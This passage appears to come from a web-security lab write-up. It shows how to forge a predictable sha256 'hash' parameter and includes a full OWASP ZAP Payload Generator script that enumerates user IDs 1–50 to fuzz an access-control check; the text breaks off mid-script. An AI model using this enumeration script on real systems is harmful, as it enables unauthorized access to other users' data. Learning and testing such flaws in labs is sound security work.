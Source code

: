 ![shalocal.png](images/shalocal.png)

Now that we know how the hash is calculated we can Fuzz the values, if we were using Burpsuite we could create the list of hashes and use a *pitchfork* attack, however in ZAP if we add more than one payload it treats it as a *Cluster Bomb* attack, since this is not what we want we'll have to use a single payload field and create a **Payload Generator** script that generates the whole body. Here is the script that we will use, everything is done in the `next()` function. To calculate the hash we are using the java `MessageDigest` class, since using it is not as straightforward as just calling it you can ask your favorite AI agent to write that part for you.

```js
var MessageDigest = Java.type("java.security.MessageDigest");
// Auxiliary variables/constants for payload generation.
var NUMBER_OF_PAYLOADS = 50;
var INITIAL_VALUE = 1;
var count = INITIAL_VALUE;

/**
 * Returns the number of generated payloads, zero to indicate unknown number.
 * The number is used as a hint for progress calculations.
 * 
 * @return {number} The number of generated payloads.
 */
function getNumberOfPayloads() {
	return NUMBER_OF_PAYLOADS;
}

/**
 * Returns true if there are still payloads to generate, false otherwise.
 * 
 * Called before each call to next().
 * 
 * @return {boolean} If there are still payloads to generate.
 */
function hasNext() {
	return (count <= NUMBER_OF_PAYLOADS);
}

/**
 * Returns the next generated payload.
 * 
 * This method is called while hasNext() returns true.
 * 
 * @return {string} The next generated payload.
 */
function next() {
  start = "user_id=";
  ID = count.toString();
  mid = "&hash="
  sign = sha256(start + ID)
	payload = start + ID + mid + sign;
	count++;
	return payload;
}

/**
 * Resets the internal state of the payload generator, as if no calls to
 * hasNext() or next() have been previously made.
 * 
 * Normally called once the method hasNext() returns false and while payloads
 * are still needed.
```